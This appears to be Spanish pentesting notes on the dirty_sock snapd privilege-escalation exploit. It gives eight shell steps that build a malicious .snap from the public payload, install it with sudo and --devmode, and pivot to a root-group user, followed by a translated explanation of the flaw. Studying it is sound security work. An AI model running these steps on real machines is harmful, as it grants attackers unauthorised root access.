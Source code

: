 # Escalada de privilegios de Linux a través de snapd (exploit dirty_sock)
https://github.com/initstring/dirty_sock/

# Explotación manual
Crearemos nuestro propio fichero .snap, compilando un paquete de instalación malicioso que nos creará el usuario dirty_sock en el grupo root.

1. Copiar payload del script dirty_sockv2.py
2. Compactar y suprimir espacios del payload --> `echo "<payload>" | xargs | tr -d ' '`
3. Crear payload propio con python --> `python -c 'print "<payload>" + "A"*4256 + "=="'`
4. Decodificarlo y pasarlo a un fichero --> `... | base64 -d > setenso.snap`
5. Ejecutar binario snap con privilegios --> `sudo /usr/bin/snap install setenso.snap`
6. Bypassear signatures --> `sudo /usr/bin/snap install setenso.snap --devmode`
7. Comprobamos si el usuario existe --> `cat /etc/passwd`
8. Pivotamos al usuario dirty_sock : dirty_sock y elevamos privilegios --> `sudo su`

# Introduction

En enero de 2019, descubrí una vulnerabilidad de escalada de privilegios en las instalaciones predeterminadas de Ubuntu Linux. Esto se debió a un error en la API snapd, un servicio predeterminado. Cualquier usuario local podría aprovechar esta vulnerabilidad para obtener acceso root inmediato al sistema.

Si bien Ubuntu incluye snapd de forma predeterminada, cualquier sistema Linux con este paquete instalado es vulnerable.

Se proporcionan dos exploits funcionales en el repositorio dirty_sock :

1.  dirty_sockv1 : utiliza la API 'create-user' para crear un usuario local basado en los detalles consultados desde el SSO de Ubuntu.
2.  dirty_sockv2 : Carga lateralmente un Snap que contiene un gancho de instalación que genera un nuevo usuario local.

Ambos son efectivos en instalaciones predeterminadas de Ubuntu. Las pruebas se completaron principalmente en 18.10, pero las versiones anteriores también son vulnerables.

# TL; DR 

snapd ofrece una API REST adjunta a un socket AF_UNIX local. El control de acceso a las funciones de API restringidas se logra consultando el UID asociado con cualquier conexión realizada a ese socket. Los datos de pares de socket controlados por el usuario pueden verse afectados para sobrescribir una variable UID durante el análisis de cadenas en un bucle for. Esto permite que cualquier usuario acceda a cualquier función de la API.

Con acceso a la API, existen múltiples métodos para obtener root. Los exploits vinculados anteriormente demuestran dos posibilidades.

# Antecedentes: ¿Qué es Snap? 
